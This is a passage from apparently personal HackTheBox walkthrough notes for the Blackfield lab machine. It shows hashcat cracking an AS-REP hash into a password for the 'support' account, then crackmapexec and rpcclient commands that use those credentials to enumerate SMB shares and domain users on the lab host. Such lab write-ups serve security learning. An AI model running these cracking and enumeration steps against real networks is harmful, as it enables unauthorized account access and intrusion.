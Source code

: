 ```
./hashcat -m 18200 hashes/blackfield --show
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250109201827.png)

Password is: `#00^Blackknight`

Use these new creds with #crackmapexec 

```
cme smb 10.10.10.192 --shares -u support -p '#00^Blackknight'
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250109202117.png)


Trying to connect with #rpcclient again

```
rpcclient -U support 10.10.10.192
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250109202457.png)
Run 
```
enumdomusers
```
